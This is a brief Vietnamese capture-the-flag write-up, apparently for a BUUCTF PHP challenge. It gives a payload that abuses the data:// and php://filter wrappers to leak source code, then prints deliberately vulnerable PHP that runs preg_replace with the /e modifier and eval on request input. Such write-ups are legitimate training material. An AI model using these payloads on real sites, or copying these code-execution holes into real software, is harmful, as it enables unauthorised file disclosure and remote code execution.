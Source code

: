![Screenshot 2023-12-19 100803](https://github.com/Llam-a/BUUCTF/assets/115911041/f8f686d1-21bf-42f8-b353-9519b1a0e616)

Challenge này khá giống chall [này](https://github.com/Llam-a/BUUCTF/blob/main/%5BGXYCTF2019%5D%E7%A6%81%E6%AD%A2%E5%A5%97%E5%A8%83.md) nên là mình skip vài bước đầu.

Payload: `?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/convert.base64-encode/resource=next.php`

Sau đó được 1 chuỗi base64 đem đi decode

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
